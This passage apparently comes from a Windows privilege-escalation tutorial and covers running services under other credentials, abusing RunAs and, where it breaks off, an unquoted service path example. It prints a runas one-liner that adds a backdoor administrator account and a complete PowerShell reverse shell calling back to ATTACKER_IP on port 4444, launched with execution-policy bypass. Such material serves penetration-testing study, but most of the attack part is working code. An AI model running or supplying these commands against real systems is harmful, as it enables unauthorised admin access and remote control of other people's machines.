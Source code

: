 ### Starting a Service with Alternative Credentials

```cmd
# Start a service as a different user
sc.exe config SERVICE_NAME obj= "DOMAIN\username" password= "Password123!"
sc.exe start SERVICE_NAME
```

### Exploiting RunAs for Privilege Escalation

1. **When you have discovered credentials** (from credential hunting):
   ```cmd
   runas /user:Administrator "cmd.exe /c net user hacker Password123! /add && net localgroup administrators hacker /add"
   ```

2. **Establishing a reverse shell as the privileged user**:
   ```powershell
   # Create PowerShell reverse shell script (save as rev.ps1)
   $client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4444);
   $stream = $client.GetStream();
   [byte[]]$bytes = 0..65535|%{0};
   while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
       $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
       $sendback = (Invoke-Expression $data 2>&1 | Out-String);
       $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
       $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
       $stream.Write($sendbyte,0,$sendbyte.Length);
       $stream.Flush()
   };
   $client.Close();
   
   # Execute as the privileged user
   runas /user:Administrator "powershell.exe -ExecutionPolicy Bypass -File C:\path\to\rev.ps1"
   ```

### Limitations of RunAs

- Requires knowing the user's password
- By default, doesn't accept pre-supplied passwords
- Creates a new logon session (doesn't inherit current session's network shares or mapped drives)
- May require desktop interaction depending on system settings
- May trigger User Account Control (UAC) prompts

## Real-World Example 1: Exploiting Unquoted Service Path

For a service with configuration like:

```cmd
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```
